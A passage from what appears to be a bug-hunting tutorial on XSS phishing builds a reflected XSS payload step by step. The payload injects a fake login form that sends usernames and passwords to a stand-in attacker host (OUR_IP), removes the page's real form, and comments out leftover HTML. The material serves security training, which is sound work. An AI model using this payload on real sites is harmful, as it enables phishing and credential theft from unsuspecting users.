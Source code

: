 Next, we should prepare our XSS code and test it on the vulnerable form. To write HTML code to the vulnerable page, we can use the JavaScript function document.write(), and use it in the XSS payload we found earlier in the XSS Discovery step. Once we minify our HTML code into a single line and add it inside the write function, the final JavaScript code should be as follows:
```
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```
We can now inject this JavaScript code using our XSS payload (i.e., instead of running the alert(window.origin) JavaScript Code). In this case, we are exploiting a Reflected XSS vulnerability, so we can copy the URL and our XSS payload in its parameters, as we've done in the Reflected XSS section, and the page should look as follows when we visit the malicious URL:

![image](https://github.com/RipperGh/BugHunting-D/assets/165308866/1301981c-11a7-47dc-8198-5144530725b0)

## Cleaning Up
We can see that the URL field is still displayed, which defeats our line of "Please login to continue". So, to encourage the victim to use the login form, we should remove the URL field, such that they may think that they have to log in to be able to use the page. To do so, we can use the JavaScript function document.getElementById().remove() function.

To find the id of the HTML element we want to remove, we can open the Page Inspector Picker by clicking [CTRL+SHIFT+C] and then clicking on the element we need:

![image](https://github.com/RipperGh/BugHunting-D/assets/165308866/25184004-87b4-4aa7-8db2-cd7479aca6c4)

As we see in both the source code and the hover text, the url form has the id urlform:

```
<form role="form" action="index.php" method="GET" id='urlform'>
    <input type="text" placeholder="Image URL" name="url">
</form>
```

So, we can now use this id with the remove() function to remove the URL form:
```
document.getElementById('urlform').remove();
```
Now, once we add this code to our previous JavaScript code (after the document.write function), we can use this new JavaScript code in our payload:
```
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```
When we try to inject our updated JavaScript code, we see that the URL form is indeed no longer displayed:

![image](https://github.com/RipperGh/BugHunting-D/assets/165308866/f0e3e1fe-c87c-4757-92fc-9d60d6006c13)

We also see that there's still a piece of the original HTML code left after our injected login form. This can be removed by simply commenting it out, by adding an HTML opening comment after our XSS payload:
```
...PAYLOAD... <!--
```
